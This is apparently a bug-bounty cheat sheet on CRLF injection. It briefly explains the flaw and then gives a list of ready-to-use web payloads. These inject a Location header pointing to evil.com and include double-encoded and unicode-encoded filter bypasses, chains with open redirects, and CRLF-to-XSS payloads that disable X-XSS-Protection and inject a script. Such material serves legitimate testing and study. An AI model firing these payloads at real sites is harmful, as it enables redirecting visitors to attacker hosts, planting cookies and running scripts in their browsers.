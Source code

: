 # CRLF Injection

## Introduction
A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Where to find
It can be found anywhere, always check the request and response. Try to search for parameters that lead to redirects, you can see the response is (301, 302, 303, 307, 308).

## How to exploit
1. Basic payload
```
https://example.com/?lang=en%0D%0ALocation:%20https://evil.com/
```
The response is
```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode
```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode
```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```
4. CRLF chained with Open Redirect
```
https://example.com//www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2  
https://example.com/www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2   
https://example.com/google.com/%2F..%0D%0AHeader-Test:test2
https://example.com/%0d%0aLocation:%20http://example.com
```
5. CRLF Injection to XSS
```
https://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
https://example.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
```
6. Filter Bypass
```
%E5%98%8A = %0A = \u560a
%E5%98%8D = %0D = \u560d
%E5%98%BE = %3E = \u563e (>)
%E5%98%BC = %3C = \u563c (<)
Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```

### References:
- https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46
- https://github.com/daffainfo/AllAboutBugBounty
